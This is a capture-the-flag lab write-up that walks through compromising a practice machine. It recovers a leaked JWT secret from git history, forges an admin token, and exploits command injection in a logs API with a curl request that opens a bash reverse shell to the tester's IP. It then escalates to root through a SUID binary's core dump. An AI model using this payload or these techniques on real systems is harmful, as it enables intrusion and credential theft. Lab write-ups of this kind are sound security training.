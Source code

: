 1,Enumerate 
ports scan:
	22/tcp ssh
	80/tcp http Nginx 1.18.0
	3000/tcp http Node.js

enumerate the web pages of port 80:
![](images/Pasted%20image%2020240721054724.png)
The configurations may be very attractive
but nothing there, but we found the docs (documents of tech), it gives us about to register and login user.
# Introduction Last updated: 2019-06-01

This is a API based Authentication system. we are using "JWT" tokens to make things more secure. to store the user data we are using mongodb, you can find a demo of how the api works in [here](http://10.10.11.120/api) this is a very secured Authentication system will well done documentation ( sometimes companies hide endpoints ) but our code is public

![](images/Pasted%20image%2020240721062903.png)
it is clear that http://localhost:3000/api/priv help server to check auth of admins

And we can also download the source code.
from .git file,we can get credit dasithsv@gmail.com 

	git log --oneline

![](images/Pasted%20image%2020240721062316.png)
	67d8da7 removed .env for security reasons
it seems very interesting because of security reasons!
we get :
	 `DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
	`-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`
	`+TOKEN_SECRET = secret`

This token would be exploited, let's try it!

We have known "using JWT tokens to make things more secure"
So we try to decode the token of documents
	``   eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTE0NjU0ZDc3ZjlhNTRlMDBmMDU3NzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjI4NzI3NjY5fQ.PFJldSFVDrSoJ-Pg0HOxkGjxQ69gxVO2Kjn7ozw9Crg`

![](images/Pasted%20image%2020240721064825.png)
We sucessfully cracked it.

From log.js
![](images/Pasted%20image%2020240721064938.png)
It has command injection in 
	`if (name == 'theadmin'){
        `const getLogs = git log --oneline ${file};
        `exec(getLogs, (err , output) =>{

So we need to make name == 'theadmin'
![](images/Pasted%20image%2020240721065843.png)

try to exploit the command injection
	`curl -s -G 'http://10.10.11.120/api/logs' --data-urlencode "file=>/dev/null;bash -c 'bash -i >& /dev/tcp/10.10.16.8/4444 0>&1'" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .`
then we can get reverse shell !

2,Shell as root
upload pspy64 to check background applications, but nothing happened.

Enumerate the templates of machine
there is nothing attactive in the root /, but in /opt there are some interesting things.
![](images/Pasted%20image%2020240721071257.png)
count is a SUID binary, which means it will run as it’s owner regardless of who runs it. In this case, that user is root. Running it prompts for a filename:

The intended path to exploit this binary is to abuse the file descriptors in use by the count process. The issue in the source code is that it never closes file, which is the handle to the given filepath. That means that as long as the program is running, the handle will be in /proc/[pid]/fd. Typically this would be flushed on the setuid, but because of PR_SET_DUMPABLE, the file handles will stay open. To exploit this, I’ll run the program, and then background it when it gets to the prompt:
利用此二进制文件的预期路径是滥用 count 进程使用的文件描述符。源代码中的问题是它永远不会关闭 file ，它是给定文件路径的句柄。这意味着只要程序正在运行，句柄就会位于 /proc/[pid]/fd 中。通常这会在 setuid 上刷新，但由于 PR_SET_DUMPABLE ，文件句柄将保持打开状态。为了利用这一点，我将运行该程序，然后在出现提示时将其置于后台

	`./count check /root/root.txt crtl+z`
	`ps auxww | grep count  find the count process`
	`cd /proc/*/fd/`
	`check it`
we cannot directly check it because of "cat: 3: Permission denied"

![](images/Pasted%20image%2020240721072724.png)
we found only root can read it and there are .ssh doc and .viminfo to inspire us.

There’s a comment in the source // Enable coredump generation. That’s a good hint to try generating a crash of the process. When a program crashes, the system stores the crash dump files in /var/crash. There’s actually already two there:
源代码中有一条注释 // Enable coredump generation 。这是尝试生成进程崩溃的一个很好的提示。当程序崩溃时，系统将故障转储文件存储在 /var/crash 中。实际上已经有两个了

The kill command is typically associated with killing processes, but what it actually does is send a specified signal to a process, and the default signal is TERM (making the default behavior to kill the process). kill -l will show all the possible signals:
kill 命令通常与杀死进程相关联，但它实际上做的是向进程发送指定的信号，默认信号是 TERM （默认行为是杀死进程）过程）。 kill -l 将显示所有可能的信号

SIGSEGV is the signal to send a segmentation fault, which will crash the program. I’ll send it, and then resume the program with fg:
SIGSEGV 是发送分段错误的信号，这将使程序崩溃。我将发送它，然后使用 fg 恢复程序

There’s a new file in /var/crash
![](images/Pasted%20image%2020240721075949.png)

It has all kinds of information about the process at the time of the crash, and a large base-64 encoded blob at the end.
它包含有关崩溃时进程的各种信息，以及末尾的大型 Base-64 编码 blob。

apport-unpack will decompress the dump into a given directory:
apport-unpack 将把转储解压缩到给定目录：

	`apport-unpack _opt_count.1000.crash /tmp/`
	`file CoreDump` file shows CoreDump as an ELF binary
	`strings -n 30 CoreDump`

That’s because it’s the memory of the process at the time of the crash. Running strings on it will return the file:
那是因为它是崩溃时进程的内存。在其上运行字符串将返回文件

Finally we get ssh private key from .viminfo
then use it to get root flag.